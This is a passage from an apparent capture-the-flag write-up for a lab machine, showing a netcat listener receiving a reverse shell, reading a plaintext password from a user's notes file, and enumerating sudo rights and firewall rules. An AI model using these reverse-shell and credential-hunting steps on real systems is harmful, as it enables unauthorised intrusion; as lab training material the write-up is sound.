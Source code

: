 ```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.131.31] 49090
...
gilbert@tonhotel:/$ id
uid=1001(gilbert) gid=1001(gilbert) groups=1001(gilbert)
```

Checking the user's home directory, we find the password for the user inside the `hotel-jobs.txt` file.

```console
gilbert@tonhotel:~$ cat hotel-jobs.txt
hotel tasks, q1 52

- fix lights in the elevator shaft, flickering for a while now
- maybe put barrier up in front of shaft, so the addicts dont fall in
- ask sandra AGAIN why that punk has an account on here (be nice, so good for her to be home helping with admin)
- remember! '[REDACTED]'

buy her something special maybe - she used to like raspberry candy - as thanks for locking the machine down. 'ports are blocked' whatever that means. my smart girl
```

Using the password, we can check the `sudo` privileges.

```console
gilbert@tonhotel:~$ sudo -l
[sudo] password for gilbert:
Matching Defaults entries for gilbert on tonhotel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gilbert may run the following commands on tonhotel:
    (root) /usr/sbin/ufw status
```

We are able to run `ufw status` as root using `sudo` and by running it, we can see the active firewall rules.

```console
gilbert@tonhotel:~$ sudo /usr/sbin/ufw status
Status: active

To                         Action      From
--                         ------      ----
80/tcp                     ALLOW       Anywhere
4346/tcp                   ALLOW       Anywhere
80/tcp (v6)                ALLOW       Anywhere (v6)
4346/tcp (v6)              ALLOW       Anywhere (v6)

80/tcp                     ALLOW OUT   Anywhere
443/tcp                    ALLOW OUT   Anywhere
80/tcp (v6)                ALLOW OUT   Anywhere (v6)
443/tcp (v6)               ALLOW OUT   Anywhere (v6)
```
